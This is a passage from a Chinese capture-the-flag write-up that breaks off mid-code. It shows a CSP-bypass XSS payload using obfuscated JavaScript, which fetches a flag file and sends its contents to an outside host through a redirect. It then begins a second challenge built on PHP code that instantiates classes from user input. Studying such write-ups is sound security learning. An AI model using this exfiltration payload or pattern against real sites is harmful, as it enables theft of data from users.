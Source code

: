 



csp:`Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'; img-src 'self'; object-src 'none'; require-trusted-types-for 'script';`

绕过

xmlhttp

```javascript
<script >xmlhttp=new XMLHttpRequest();
xmlhttp[`\x6fnreadystatechange`]=()=>{if(xmlhttp.readyState==4 && xmlhttp.status==200){document[`\x6cocati\x6fn`][`href`]=`http://ccreat\x65r.top:60006/`+xmlhttp[`\x72espo\x6eseText`];}};xmlhttp.open(`GET`,`/lib\x2ffla\x67.php`,true);xmlhttp.send();</script>
```

拿到flag



##  ezupload



 http://183.129.189.60:10057/ 

```
/flag.php
/index.php
/log.php
/login.php
/www.zip
```

flag.php

```php
flag.php关键代码如下：
$classname = $_GET['classname'];
$data = $_GET['data'];
$class = new $classname($data['a'], $data['b']);
Only users from the website can request this page. flag in /flag, have fun!
```



先登陆康康,需要key,相关代码在:

```php
<?php
	header("content-type:text/html;charset=utf-8");
	session_start();
	function getkey()
	{
		$key = '';
		$chars = str_split('0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ');
		for ($i = 0; $i < 48; $i++)
		{
			$key = $key . $chars[random_int(0, 61)];
		}
		$_SESSION['key'] = $key;
		return $key;
	}
	function getreferer() {
		static $referer;
		if (isset($_SERVER['HTTP_REFERER'])) {
				$referer = $_SERVER['HTTP_REFERER'];
			}
		elseif(isset($_POST['URL_REFERER'])){
				$referer = $_POST['URL_REFERER'];
			}
```